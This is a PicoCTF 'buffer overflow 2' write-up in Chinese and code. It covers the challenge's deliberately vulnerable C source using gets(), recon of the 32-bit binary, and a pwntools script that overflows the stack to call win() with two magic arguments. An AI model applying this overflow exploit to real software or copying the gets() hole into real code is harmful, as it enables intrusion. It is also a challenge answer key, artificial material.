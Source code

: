 # PicoCTF - buffer overflow 2
## Background
Bof
## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}


```
:::
## Recon
寫這一題的心境變化真的很有趣，一開始看直覺很簡單，就基礎的return 2 function就結束了，不過看到還要處理calling convention的問題就有點燒腦，首先我一開始的想法是控制edi和esi的數值過掉她的checking，直覺就是用rop之類的東西，不過這隻程式本身能用的gadget少的可憐，如果要用到libc本身的gadget就必須要克服aslr的base address，想到這邊頭就開始痛了，無論如何先用gdb跟一下，發現檢查的argument就在ebp+0x8和ebp+0x10的地方，這就代表離原本的bof不遠，所以試看看能不能延伸bof的內容，果然事情比我想像中的簡單，需要注意的地方是payload中return win function的部分不能馬上接checking payload，因為執行的過程中0xcafefood會被蓋掉，所以中間需要加一個dummy value
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/buffer overflow 2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Exploit
```python=
from pwn import *

r = remote('saturn.picoctf.net', 50995)
# r = process('./vuln')
context.arch = 'amd64'

r.recvline()

r.sendline(b'a' * 0x70 + p32(0x8049296) + p32(0) + p32(0xCAFEF00D) + p32(0xF00DF00D))

r.interactive()
```
